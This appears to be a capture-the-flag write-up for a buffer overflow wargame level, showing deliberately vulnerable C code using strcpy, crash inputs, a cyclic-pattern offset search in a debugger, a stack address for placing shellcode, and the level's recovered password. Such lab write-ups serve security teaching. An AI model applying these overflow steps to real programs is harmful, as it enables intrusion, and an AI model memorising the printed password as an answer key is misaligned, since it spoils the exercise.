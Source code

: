# Performing BufferOverflow to find flag
## My Approach:

### Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char* concat(char *buf, char *s1, char *s2)
{
        // Copy s1 to buf
        strcpy(buf, s1);
        // Append s2 to s1 into buf
        strcat(buf, s2);
        return buf;
}

int main(int argc, char **argv)
{
        char buf[256];
        char buf1[128];
        char buf2[128];

        if (argc != 3)
                return 0;

        // Copy argv[1] to buf1 and argv[2] to buf2
        strncpy(buf1, argv[1], sizeof(buf1));
        strncpy(buf2, argv[2], sizeof(buf2));

        concat(buf, buf2, buf1);
        printf("String result: %s\n", buf);
        return 0;
}
```
As we can see from the code, the unsafe function strcpy is being used to copy user input to a buffer. The code snippet takes two input arguments from the user and copies them into a larger buffer.
It then prints this buffer. While copying it copies the second argument before the first one.
I first tried to crash the program.
```
level3@lxc-pwn-x86:/levels$ ./level3 $(python -c 'print "A"*125') $(python -c 'print "B"*128')
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
After multiple trials, I found that the program crashes when the first buffer is filled with 125 A's and the second buffer is filled with 128 B's.
Using this information I wanted to find the offset of an address.
For this, I used the website https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to help generate a pattern and give me an offset value. 
```
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0AeAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae

Program received signal SIGSEGV, Segmentation fault.
0x41356141 in ?? ()
```
We need to put the address 0x41356141 in the website to get the offset. We get the offset of 15.

Now we need to start to put our payload to spawn a shell. For this, we first need to find an address. In our case, the address is 0xffffdae0 (can be found using print &buf). 
We place the payload in the second buffer. 

![l3](https://user-images.githubusercontent.com/19536413/149811011-534a00b8-f553-4a09-8315-4dd07e264300.png)

We have found the password for the next level. 
## Password is: VHDY2pdYVyXi08kupbos
